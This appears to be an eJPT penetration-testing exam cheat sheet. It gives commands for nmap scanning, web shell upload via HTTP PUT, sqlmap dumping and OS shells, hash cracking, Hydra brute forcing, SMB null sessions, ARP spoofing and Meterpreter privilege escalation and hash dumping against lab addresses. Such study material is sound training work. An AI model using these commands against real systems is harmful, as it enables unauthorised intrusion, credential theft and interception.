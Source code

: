 ### Routing
One thing I am almost sure you will have to do is set up IP routing and routing tables. There are plenty of resources available online for this, but the course content itself seemed to be pretty lacking here. If you read through my accompanying post, you’ll know that I didn’t pay for the videos or labs, so I can’t comment on how well routing is explained in the full version of the PTS, but this is probably the thing that I had the most trouble configuring.

```
ip route add ROUTE_TO via ROUTE_FROM
```
#### Enumeration
Anyone experienced in penetration testing will tell you that enumeration is 90% of the battle, and I don’t disagree. Although the eJPT doesn’t require a very in depth enumeration cycle, it does cover a broad number of techniques.
```
whois
whois site.com

Ping Sweep
fping -a -g 10.10.10.0/24 2>/dev/null
nmap -sn 10.10.10.0/24

Nmap Scans
OS Detection
nmap -Pn -O 10.10.10.10
Nmap Scan (Quick)
nmap -sC -sV 10.10.10.10
Nmap Scan (Full)
nmap -sC -sV -p- 10.10.10.10
Nmap Scan (UDP Quick)
nmap -sU -sV 10.10.10.10
```
#### Web Applications
The following commands could be useful when enumerating and attacking web applications. Again, make sure you understand what each one does rather than blindly throwing them at the machine in question.
```
Banner Grabbing
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
OpenSSL for HTTPS services
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
Httprint
httprint -P0 -h 10.10.10.10 -s /path/to/signaturefile.txt
HTTP Verbs
GET, POST, HEAD, PUT, DELETE, OPTIONS
Use the OPTIONS verb to see what other verbs are available

nc 10.10.10.10 80
OPTIONS / HTPP/1.0
You can use HTTP verbs to upload a php shell. Find the content length, then use PUT to upload the shell. Make sure you include the size of the payload when using the PUT command.

wc -m shell.php
x shell.php

PUT /shell.php
Content-type: text/html
Content-length: x
```

#### Directory and File Scanning
My preferred tool at the moment is dirsearch, I find it to to be fast and easy to use. For a more in depth scan, use gobuster and include a large wordlist.
```
dirsearch.py -u http://10.10.10.10 -e *
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
```
#### Advanced Google Searches
Not really necessary, but useful to know all the same.
```
site:
intitle:
inurl:
filetype:
AND, OR, &, |, -
```

#### Cross Site Scripting (XSS)
The general steps I use to find and test XSS are as follows:
```
1. Find a reflection point
2. Test with <i> tag
3. Test with HTML/JavaScript code (alert('XSS'))
Reflected XSS = Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload
Persistent XSS = Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post
```

#### SQLMap
```
sqlmap -u http://10.10.10.10 -p parameter
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
sqlmap -u http://10.10.10.10 --os-shell
sqlmap -u http://10.10.10.10 --dump
```

#### System Attacks
The other type of ‘attack’ you will be doing are system attacks. Make sure you understand why/how to brute force types of services and hashes, as well as basic metasploit usage.
```
Password Attacks
Unshadow
This prepares a file for use with John the Ripper

unshadow passwd shadow > unshadow
Hash Cracking
john -wordlist /path/to/wordlist -users=users.txt hashfile
Network Attacks
Brute Forcing with Hydra
replace ‘ssh’ with any relevant service

hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

#### Windows Shares Using Null sessions
```
nmblookup -A 10.10.10.10
smbclient -L //10.10.10.10 -N (list shares)
smbclient //10.10.10.10/share -N (mount share)
enum4linux -a 10.10.10.10
```
#### ARP spoofing
```
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
```
#### Metasploit
Metasploit is a very useful tool for penetration testers, and I’d recommend going through a Metasploitable for an effective, hands on way to learn about Metasploit. There are plenty of guides and walkthroughs available to learn from. Doing even part of a Metasploitable box will more than prepare you for the Metasploit usage required here.
```
Basic Metasploit Commands
search x
use x
info
show options, show advanced options
SET X (e.g. set RHOST 10.10.10.10, set payload x)

Meterpreter
The below are some handy commands for use with a Meterpreter session. Again, I’d recommend going through a Metasploitable or doing some extra study here.

background
sessions -l
sessions -i 1
sysinfo, ifconfig, route, getuid
getsystem (privesc)
bypassuac
download x /root/
upload x C:\\Windows
shell
use post/windows/gather/hashdump
```
